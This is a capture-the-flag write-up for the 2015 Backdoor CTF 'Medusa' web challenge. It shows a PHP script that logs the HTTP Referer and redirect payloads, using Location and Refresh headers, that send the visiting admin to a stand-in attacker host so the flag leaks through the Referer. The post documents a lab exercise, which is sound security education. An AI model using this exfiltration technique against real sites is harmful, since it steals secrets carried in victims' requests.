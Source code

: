 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - Medusa Writeup"
date: 2015-04-03 01:06:09 +0430
comments: true
categories: ctf backdoor web
---
```


**Backdoor2015 Medusa Writeup**  
**Point = 100**  
**Category = Web**  
**Description : **  

> The html page you create will be visited by the backdoor admin with the flag.
>You can enter a fake flag to simulate the challenge.


>Get the flag at http://hack.bckdr.in/MEDUSA/

After We open the link that is provided in description we are welcomed with a form.you can send message with html code and after that admin will visit your page with the flag.

<!-- more -->

![alt text](http://up.ashiyane.org/images/nxcfynwxymxjqi2v4u7.png "Medusa Form")

Backdoor CTF admin add a hint and mention that they sent flag as post request

this is sample request that admin sent :

http://hack.bckdr.in/MEDUSA/view.php?id=ID&flag=FLAG

when you sent the message Medusa website create id for you.
you can visit your message with this id ( same as admin :D )

![alt text](http://up.ashiyane.org/images/wu0fm2e5n6shme48fj58.png "Message Read")

we test different method to get the flag value from post request with PHP or JavaScript in our page but we see error or blank page.

>after some investigation our team found answer !!!

we can redirect admin to another page and get the flag

but if they sent request as post cant log the value in second page.so thinking to Referer attribute in the header.

write some code to get and save the Referer in the text file when admin redirect to our PHP page :
Server.php

```
<?php
$ref = $_SERVER['HTTP_REFERER'];
file_put_contents("flag.txt",$ref);
?>
```

 > and sent this code as our page to Medusa form :
```
---
location: http://Attackerwebsite.com/server.php
---
Can you get the **flag**?
```
but after admin visit the link flag.txt is empty !!!

no Referer sent to PHP page...

we test several time ( for this challenge or local tests ) and same result,no Referer save in flag.txt

after some research we found out with this kind of header redirection we cant get Referer and we should change that.

```
---
Refresh: 0; url=http://Attackerwebsite.com/server.php
---
Can you get the **flag**?

```

and guess what?
> we have Referer Link in flag.txt :D



[Referer Link With Flag!](http://hack.bckdr.in/MEDUSA/view.php?flag=[redacted]&id=d61d051c6e741595491c)

and now you have 100 point :D

WriteUp By Fr0nk

